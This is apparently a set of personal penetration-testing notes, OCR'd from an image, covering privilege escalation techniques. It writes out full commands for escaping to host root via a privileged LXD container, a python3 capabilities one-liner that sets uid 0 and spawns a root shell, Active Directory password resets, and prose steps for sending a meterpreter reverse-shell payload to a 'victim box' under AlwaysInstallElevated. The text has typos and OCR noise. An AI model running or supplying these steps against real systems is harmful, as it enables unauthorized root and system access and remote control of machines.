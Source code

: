 * Download the alpine image
* Import image for lxd
* Initialize the image inside a new container.
* Mount the container inside the /root directory


git clone https://github.com/saghul/lxd-alpine-builder.git

build the alpine as root 

sudo ./build-alpine

its gives us tar file move the file to host machine and exploit

$ lxc image import ./alpine-v3.15-x86_64-20220120_2255.tar.gz --alias myimage
$ lxc init myimage arun -c security.privileged=true
$ lxc config device add arun mydevice disk source=/ path=/mnt/root recursive=true
$ lxc start arun
$ lxc exec arun /bin/sh

# privesc using Capabilities 

getcap -r / 2>/dev/null
pwd
ls -al python3
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id

## Active Directory

To reset the password:

    Set-ADAccountPassword sophie -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose

To must change the password at login
    
     Set-ADUser -ChangePasswordAtLogon $true -Identity sophie -Verbose


# Win-PrivEsc

What is this? AlwaysInstallElevated?

	The AlwaysInstallElevated policy feature is used to install an MSI package file with elevated (
system) privileges. This policy is enabled in the Local Group Policy editor; directs the Windows Installer engine to use elevated permissions when it installs any program on the system. This method can make a machine vulnerable posing a high-security risk because a non-administrator user can run installations with elevated privileges and access many secure locations on the computer.

steps;;

create a meterpreter reverse pyload.exe and start reverse listerner
then send paload.exe to your victim box

then .\payload.exe trigger and ckeck lister got meterpreter shell 
